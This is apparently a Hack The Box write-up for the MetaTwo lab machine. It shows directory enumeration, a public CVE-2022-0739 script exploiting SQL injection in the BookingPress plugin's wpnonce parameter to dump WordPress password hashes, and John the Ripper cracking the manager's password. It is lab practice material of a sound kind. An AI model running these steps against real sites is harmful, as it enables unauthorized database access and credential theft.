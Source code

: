 ```bash
/events               (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/feed                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/]
/0                    (Status: 301) [Size: 0] [--> http://metapress.htb/0/]
/atom                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/atom/]
/s                    (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/a                    (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/c                    (Status: 301) [Size: 0] [--> http://metapress.htb/cancel-appointment/]
```
the only directory that I could come up with something from is the events directory and it was the version of the software used in handling the events which is `booking press 1.0.10` so I searched for an online exploit and I found this [github repository](https://github.com/destr4ct/CVE-2022-0739) which contains an automated script which exploit this  program and it basically exploit the program by sql injection in "wpnonce" paramter
![image](/MetaTwo/img/2.png)
```bash
┌──(kali㉿kali)-[~/HTB/CVE-2022-0739]
└─$ python3 booking-press-expl.py -u http://metapress.htb/ -n 361e6b22d4
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU
```
As you can see these passwords are hashed so I tried to crack it using johntheripper but the manager's password was the only one that could be cracked.
```bash
┌──(kali㉿kali)-[~/HTB/CVE-2022-0739]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashed
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)     
1g 0:00:00:16 DONE (2023-04-26 10:42) 0.06142g/s 6781p/s 6781c/s 6781C/s penny6..onelove7
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```